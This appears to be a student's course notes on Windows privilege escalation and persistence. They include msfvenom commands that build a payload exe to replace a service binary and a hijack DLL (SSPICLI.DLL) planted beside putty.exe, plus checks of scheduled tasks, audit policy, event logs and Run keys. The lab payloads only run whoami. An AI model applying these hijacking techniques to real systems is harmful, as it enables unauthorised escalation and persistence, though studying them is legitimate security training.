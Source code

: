 # Privilege Escalation, Persistence & covering your tracks


## DLL Search Order
executables check the following locations (in opposite order)
- HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs
- The directory the the Application was run from
- The directory specified in in the C+ function GetSystemDirectory()
- The directory specified in the C+ function GetWindowsDirectory()
- The current directory

WILL NEED AUDITPOL COMMAND ON EXAM
![image](https://github.com/hannahsfrommt/Security/assets/140441321/81887602-5242-4b0c-b127-69612f44ed69)



## DEMO
### binary replacement concept
open services app
take advantage of lazy admins
organize by description
go to files and see if can add files, or replace names
pull up linux op station
`msfvenom -p windows/exec CMD='cmd.exe /c "whoami" > C:\\Users\DemoAdmin\Desktop\whoami.txt' -f exe > 7z.exe`
`ls`
`file 7z.exe`
get this to our demo box
on windows cmd
`scp student@10.50.X.X:7z.exe .`
copy it into directory on windows file system 
changed the name of theirs and made mine the actual name so it fires up my version at start up
restart box
see whoami.txt on the Desktop

### schtasks
open up task scheduler
scheduled tasks should stand out to you
might see no description
look at trigger and understand it
remember system runs scheduled tasks
what is the action

### dll hijacking
look at file in file system
see cannot write to directory, use admin priv to write hehe (could do the same thing as before w the msfvenom)
press view to see full names and hidden files
download process monitor and unzip it in file system
alternative binaries download putty.exe
open process monitor 
filter > filter
Path contains .dll
Process Name comtains putty.exe
Result contains .dll
cant replace binary so going to replace dll
go on linux again
`msfvenom -p windows/exec CMD='cmd.exe /c "whoami" > C:\\Users\DemoAdmin\Desktop\whoamiPutty.txt' -f dll > SSPICLI.DLL`
`ls`
`file SSPICLI.DLL`
on windows box
`scp student@10.50.X.X:SSPICLI.DLL ./Desktop`
see dll is sitting on desktop
throw it in the same place as putty
now launch putty and it called out our dll bc it checks the same directory first

### logs
in windows cmd
`auditpol /get /category:*`
`auditpol /get /category:* | findstr "Success and Failure"`
open event viewer
see application, security (log ons), system(system start and stop)
on right you can filter for event id for example...can google the event id

### registry
regedit 
look at HKLM/SOFTWARE/Microsoft/Windows/CurrentVersion/Run or RunOnce
check it is of value
